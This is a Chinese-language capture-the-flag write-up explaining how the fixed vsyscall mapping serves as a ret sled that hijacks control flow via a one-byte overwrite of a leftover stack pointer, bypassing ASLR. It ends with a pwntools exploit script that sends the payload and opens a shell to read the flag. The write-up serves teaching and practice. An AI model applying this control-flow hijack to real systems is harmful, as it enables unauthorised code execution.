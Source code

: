 # 无法利用的漏洞
本题考查利用vsyscall实现漏洞利用，利用条件是栈上的数据没有清理干净同时系统开启了vsyscall。这道题是希望理解了基本ROP的同学通过提示“Do you know how to make syscall faster?”学习vsyscall的利用方法。这个漏洞有趣的地方在于，只要满足利用条件，即使开了aslr而且编译器保护全开也能劫持控制流。

#解答
vsyscall的全称是virtual system call，当初引入这个机制是为了减少系统调用时从用户态切换到内核态的开销。某些系统调用并不会向内核传递参数，而仅仅是从内核里请求读取某个数据，比如gettimeofday。所以可以直接把gettimeofday的实现直接映射到用户空间中，这样就避免了用户态到内核态转换的开销。（实际上还有个好处是对于gettimeofday这种对时间要求比较精确的函数，实现快速系统调用更加的科学）
但是vsyscall有很严重的安全问题，vsyscall用户空间映射的地址是固定的，64位系统上是0xffffffffff600000。把题目在开启了vsyscall的机器上跑起来，查看一下内存映射状态如下：

![1](images/1.png)

虽然设计者限制了只有从vsyscall的函数入口进入才能正常运行(避免了拿这个ret作为gadget来ROP),但是我们可以反复调用vsyscall来不断地调用ret像滑雪橇一样破坏栈平滑。只要栈上有.text段的地址没有清除干净，通过修改最低位就劫持了控制流。把二进制文件丢到IDA里分析一波发现其实留了个后门，那么思路就很简单了,只要栈上数据不干净就能利用了。gdb打个断点看看栈上的情况：

![2](images/2.png)

果然没有清理干净，那么直接写exp然后就pwn成功啦！

```python
#!/usr/bin/env python
# encoding: utf-8
from pwn import *
import random, string
from hashlib import sha256
context.log_level = "debug"
context.terminal = ['tmux', 'splitw', '-h']
debug = 1

if debug:
    io = process('./impossible')
else:
    io = remote("127.0.0.1", 10001)

io.recvuntil("Hack me please!\n")
gdb.attach(io.pid)
vsyscall = 0xffffffffff600000
io.interactive()
io.send(p64(vsyscall)*30+'\x6b')
io.recv()
io.sendline('/bin/sh')
io.sendline('cat flag')
io.interactive()
```
